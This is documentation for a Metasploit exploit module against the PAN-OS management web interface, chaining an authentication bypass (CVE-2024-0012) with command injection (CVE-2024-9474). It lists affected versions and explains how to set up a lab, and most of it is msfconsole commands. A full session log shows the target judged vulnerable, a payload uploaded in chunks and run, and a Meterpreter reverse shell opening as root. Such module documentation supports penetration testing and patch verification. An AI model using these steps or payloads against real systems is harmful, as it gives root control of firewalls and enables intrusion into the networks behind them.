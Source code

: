 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following version are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`, with the
payloads `cmd/linux/http/x64/meterpreter_reverse_tcp`, `md/linux/http/x64/meterpreter/reverse_tcp`,
and `cmd/unix/reverse_bash`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Options

### WRITABLE_DIR
The full path of a writable directory on the target. By default it will be `/var/tmp`. The exploit will write the
payload as a series if chunks to this location, before executing the payload. The written artifacts are then deleted.

## Scenarios

### Default

```
msf6 exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.86.100   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host
   WRITABLE_DIR  /var/tmp         yes       The full path of a writable directory on the target.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      pHLZiKRnmfR      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.100:443 - The target is vulnerable.
msf6 exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 7...
[*] Uploading payload chunk 2 of 7...
[*] Uploading payload chunk 3 of 7...
[*] Uploading payload chunk 4 of 7...
[*] Uploading payload chunk 5 of 7...
[*] Uploading payload chunk 6 of 7...
[*] Uploading payload chunk 7 of 7...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.100
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.100:54266) at 2024-11-21 16:35:38 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.100
OS           : Red Hat  (Linux 4.18.0-240.1.1.28.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
